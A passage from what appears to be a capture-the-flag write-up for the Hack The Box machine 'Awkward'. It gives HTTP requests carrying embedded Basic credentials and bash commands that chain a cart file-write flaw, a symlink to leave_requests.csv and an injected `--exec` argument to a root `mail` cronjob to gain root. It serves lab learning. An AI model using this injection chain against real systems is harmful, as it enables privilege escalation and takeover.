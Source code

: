 When we add products to the cart, it would track our order based on our `user_id` parameter. So when I send this request here:

```http
POST /cart_actions.php HTTP/1.1
Host: store.hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 36
Origin: http://store.hat-valley.htb
Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
Connection: close
Referer: http://store.hat-valley.htb/shop.php



item=55&user=newuser&action=add_item
```

It would create a new file called `newuser` within the `cart` directory, and the contents of the file would be from `/product-details/1.txt`. Since we can create items in `/product-details`, we can essentially create files with any input we want.&#x20;

```
bean@awkward:/var/www/store/product-details$ cat ../cart/newuser 
***Hat Valley Cart***
new product
```

The above is possible by creating a `55.txt` file and selecting `item` 55. Since we can overwrite any files we want with anything and we have a vulnerable cronjob running `mail`, we can try to write `--exec='!/dev/shm/suid.sh'` as the name of the user to get `root` to run our script.&#x20;

To do this, we first need to create a symbolic link as `user123` that links to `/var/www/private/leaave_requests.csv`. Anything that is written to `user123` would let us write to `leave_requests.csv`, which would be passed into the `mail` command.

Afterwards, we can create a file that contains the `--exec` command to run `suid.sh` on the machine.&#x20;

```bash
ln -sf /var/www/private/leave_requests.csv /var/www/store/cart/user123
echo '***Hat Valley Product***' > /var/www/store/product-details/70.txt
echo 'test --exec="!/dev/shm/suid.sh"' >> /var/www/store/product-details/70.txt
```

Afterwards, send this request in Burp:

```http
POST /cart_actions.php HTTP/1.1
Host: store.hat-valley.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 36
Origin: http://store.hat-valley.htb
Authorization: Basic YWRtaW46MDE0bXJiZWFucnVsZXMhI1A=
Connection: close
Referer: http://store.hat-valley.htb/shop.php

item=70&user=user123&action=add_item
```
